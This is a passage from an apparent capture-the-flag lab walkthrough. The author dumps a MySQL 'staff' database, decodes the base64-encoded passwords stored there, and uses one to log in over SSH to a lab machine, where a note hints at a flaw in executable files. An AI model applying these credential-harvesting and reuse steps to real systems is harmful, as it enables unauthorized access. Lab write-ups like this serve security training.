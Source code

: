 I then proceed to snoop around to see if there's anything useful in it, and inside the database "staff" I find the tables "user" and "staff":

```
MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)
```

The passwords are base64-encoded. I decode them and attempt to ssh with the names and passwords. User 'dexter' and password '7ZwV4qtg42cmUXGX':

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ ssh dexter@192.168.56.101
dexter@192.168.56.101's password: 
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 25 12:43:34 2022 from 192.168.56.1
dexter@debian:~$ 
```

There's a file named "note.txt" in the user's home folder, the note reads:

```
dexter@debian:~$ cat note.txt 
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
```
